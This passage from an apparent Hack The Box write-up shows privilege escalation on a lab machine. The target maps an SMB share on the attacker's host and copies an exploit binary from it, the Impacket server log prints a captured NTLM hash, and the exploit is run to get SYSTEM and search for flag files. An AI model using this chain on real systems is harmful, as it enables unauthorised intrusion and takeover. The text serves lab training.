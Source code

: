 NOTE: I later learned that this uploading problem could have been fixed by migrating the meterpreter session to a more stable process (facepalm).


Therefore, I ended up transferring the exploit via SMB instead:

```
c:\windows\system32\inetsrv>net use x: \\10.10.14.24\r0kit
net use x: \\10.10.14.24\r0kit
The command completed successfully.

c:\windows\system32\inetsrv>mkdir c:\Windows\Temp\r0kit
c:\windows\system32\inetsrv> copy x:\pr.exe c:\Windows\Temp\r0kit
```


```
$ sudo python3 ~/tools/impacket/examples/smbserver.py r0kit shared/
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.14,1058)
[*] AUTHENTICATE_MESSAGE (HTB\GRANPA$,GRANPA)
[*] User GRANPA\GRANPA$ authenticated successfully
[*] GRANPA$::HTB:6dabc0316e40693500000000000000000000000000000000:98338fd54b7c874aef05a162208e8dffb8b2b32fbf4e8c57:4141414141414141
[-] Unknown level for query path info! 0x109
eeel[*] Handle: The NETBIOS connection with the remote host timed out.
[*] Closing down connection (10.10.10.14,1058)
[*] Remaining connections []
```

I then verified that the exploit was capable of running commands with SYSTEM privileges:

```
c:\windows\system32\inetsrv>c:\Windows\Temp\pr.exe "whoami"
c:\Windows\Temp\pr.exe "whoami"
/xxoo/-->Build&&Change By p
/xxoo/-->This exploit gives you a Local System shell
/xxoo/-->Got WMI process Pid: 1816
begin to try
/xxoo/-->Found token SYSTEM
/xxoo/-->Command:whoami
nt authority\system
```

I then searched the system for the `user.txt` and `root.txt` files with the following commands:

```
cd c:\
"C:\WINDOWS\Temp\pr.exe" "dir user.txt* /s"
"C:\WINDOWS\Temp\pr.exe" "dir root.txt* /s"
```
